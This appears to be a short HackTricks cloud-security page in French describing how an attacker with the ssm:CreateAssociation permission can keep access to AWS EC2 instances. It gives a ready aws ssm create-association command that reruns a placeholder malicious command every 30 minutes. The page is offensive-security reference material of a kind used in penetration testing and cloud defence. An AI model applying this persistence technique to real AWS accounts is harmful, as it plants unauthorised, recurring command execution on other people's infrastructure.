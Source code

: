 # AWS - SSM Perssitence

{{#include ../../../../banners/hacktricks-training.md}}

## SSM

Pour plus d'informations, voir :

{{#ref}}
../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### Utilisation de ssm:CreateAssociation pour persistence

Un attaquant disposant de l'autorisation **`ssm:CreateAssociation`** peut créer une State Manager Association pour exécuter automatiquement des commandes sur des instances EC2 gérées par SSM. Ces associations peuvent être configurées pour s'exécuter à intervalles fixes, ce qui les rend adaptées à la backdoor-like persistence sans sessions interactives.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> Cette méthode de persistance fonctionne tant que l'instance EC2 est gérée par Systems Manager, le SSM agent est en cours d'exécution, et que l'attaquant dispose de l'autorisation de créer des associations. Elle n'exige pas de sessions interactives ni de permissions explicites ssm:SendCommand. **Important :** le paramètre `--schedule-expression` (par ex., `rate(30 minutes)`) doit respecter l'intervalle minimum d'AWS de 30 minutes. Pour une exécution immédiate ou ponctuelle, omettez complètement `--schedule-expression` — l'association s'exécutera une fois après création.

{{#include ../../../../banners/hacktricks-training.md}}
